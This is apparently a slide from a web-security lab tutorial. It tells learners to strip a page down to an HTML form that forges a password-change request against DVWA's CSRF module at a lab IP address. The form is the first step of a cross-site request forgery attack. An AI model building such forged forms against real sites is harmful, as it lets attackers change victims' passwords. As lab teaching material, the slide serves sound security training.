

# Create New Request Form
In the text editor, get rid of all the text and line breaks from the webpage
Delete the parts in red and crossed out (example)

<form action="http://10.1.34.219/dvwa/vulnerabilities/csrf/#" method="GET">
New password:<br>
<input type="password" autocomplete="off" name="password_new"><br>
Confirm new password:<br>
<input type="password" autocomplete="off" name="password_conf"><br>
<br>
<input type="submit" value="Change" name="Change">
</form>